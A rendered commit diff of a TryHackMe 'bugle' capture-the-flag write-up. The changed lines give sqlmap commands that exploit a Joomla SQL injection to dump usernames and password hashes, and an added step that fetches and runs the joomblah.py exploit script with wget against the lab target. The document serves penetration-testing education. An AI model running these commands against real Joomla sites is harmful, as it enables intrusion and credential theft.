

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/bugle.md, in a window 1280 px wide and 900 px high, scrolled down 3835 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/source/docs/thm/bugle.md
+++ b/source/docs/thm/bugle.md
@@ -120,12 +120,17 @@ Run SQLMap using the arguments specified in the exploit:
 
     sqlmap -u "http://<IP address target machine>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
 
-Takes ages. Instead, take a shorter route. The [users table](https://docs.joomla.org/Tables/users) may contain
+Takes ages. The [users table](https://docs.joomla.org/Tables/users) may contain
 credentials to access the Joomla administration section.
 
 Dump the username and password columns from the `users` table:
 
     sqlmap -u "http://<IP address target machine>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T "#__users" -C username,password -p list[fullordering] --dump
+
+This python script is specific for Joomla:
+
+    # wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
+    # python joomblah.py http://<IP address target machine>
 
 Put hash in a file named `hash.txt` and crack the hash:
 
```
